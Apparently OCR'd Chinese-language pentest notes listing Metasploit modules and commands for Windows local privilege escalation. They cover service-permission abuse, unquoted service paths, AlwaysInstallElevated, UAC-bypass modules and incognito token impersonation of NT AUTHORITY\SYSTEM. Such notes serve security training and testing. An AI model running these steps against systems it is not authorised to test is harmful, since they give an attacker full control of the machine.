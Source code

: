 `exploit/windows/local/` //该路径存在大量提权模块

1.快速检查系统可利用漏洞

`run post/multi/recon/local_exploit_suggester`

2.根据补丁寻找相关漏洞

`run post/windows/gather/enum_patches`

3.系统配置错误

windows系统服务文件在操作系统启动时加载，并在后台调用可执行文件。如果一个低权限的用户对此类系统服务调用的可执行文件拥有写权限，就可以替换该文件，并伴随系统启动获得控制器

`exploit/windows/local/service_permissions`

4.可信任服务路径

利用windows文件路径解析的特性，如果一个服务调用的可执行文件没有正确处理所引用的完整路径名，这个漏洞就会被攻击者用来上传任意可执行文件。如果一个被适当命名的可执行文件（木马）被上传到受影响的目录中，服务一旦启动，该程序就会以system权限启动。

`exploit/windows/local/trusted_service_path`

5.注册表键AlwaysInstallElevated

注册表AlwaysInstallElevated 是一个策略选项。windwos 允许低权限用户以 System 权限运行安装文件。如果启用此策略设置项，那么任何权限的用户都能以 NTAUTHORITY\SYSTEN 权限来安装恶意的 MSI 文件。（默认情况下禁用此设置，需系统管理员手动启用他。）

`exploit/windows/local/always_install_elevated`

6.UNC相关模块

UAC（User Account Control，用户账号控制）是微软为了提高系统安全性从WindowsVista中引入的技术。作用在于验证用户是否有权限去做某些操作。

```
exploit/windows/local/bypassuac
exploit/windows/local/bypassuac_injection
exploit/windows/local/bypassuac_fodhelper
exploit/windows/local/bypassuac_eventvwr
exploit/windows/local/bypassuac_comhijack
```

7.令牌窃取

当前系统的某个进程或线程能访问到什么系统资源,完全取决于当前进程是拿着的令牌。进行远程过程调用时请求提升权限，然后调用它从而生成特权安全令牌以执行特权操作。当系统允许令牌不仅用于进程本身，还用于原始请求进程时，漏洞就会出现。

```
load incognito
list_tokens -u //列举token
impersonate_token "NT AUTHORITY\\SYSTEM" \\窃取token
```



##### 2.补丁在线对比

`systeminfo > 1.txt`

[http://i.hacking8.com/tiquan](http://i.hacking8.com/tiquan)

##### 3.[ Windows-Exploit-Suggester](http://github.com/AonCyberLabs/Windows-Exploit-Suggester)
